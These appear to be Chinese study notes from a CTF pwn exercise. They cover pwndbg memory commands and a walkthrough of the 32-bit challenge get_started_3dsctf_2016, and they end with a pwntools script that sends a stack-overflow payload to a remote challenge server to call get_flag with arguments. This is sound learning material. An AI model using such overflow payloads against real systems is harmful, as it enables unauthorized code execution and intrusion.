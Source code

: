 



#### pwndbg

查看内存

x/nuf addr

x 16进制显示变量

d 十进制

o 八进制

t 二进制



![image-20220922093026734](images/image-20220922093026734.png)

17a

![image-20220922093224856](images/image-20220922093224856.png)





### 做题

#### get_started_3dsctf_2016 (32位)

![image-20220922100522605](images/image-20220922100522605.png)



![image-20220922100804499](images/image-20220922100804499.png)



getc 获取下一个字符



payload = b'a'*0x38 + b'b'*4+ p32(0x080489A0) + p32(425138641) + p32(814536271) 

这样为啥不对呢..

没有加getflag的返回地址, 函数调用栈的结构

布局有问题呀,getflag函数后面跟的是

‘a’*offset + ‘ebp’ + get_flag + get_flag的返回地址 + 参数1 + 参数2

本地调试的时候返回地址随便,远程的话需要让函数正常退出,找到exit的地址,(在函数导出表里)

![image-20220922104114243](images/image-20220922104114243.png)



```python
#!/usr/bin/env python
from pwn import *
sh = remote('node4.buuoj.cn',28177)

payload = b'a'*0x38 +  p32(0x080489A0) + p32(0x0804E6A0)+  p32(814536271) +p32(425138641)
#
sh.sendline(payload)
sh.interactive()
```
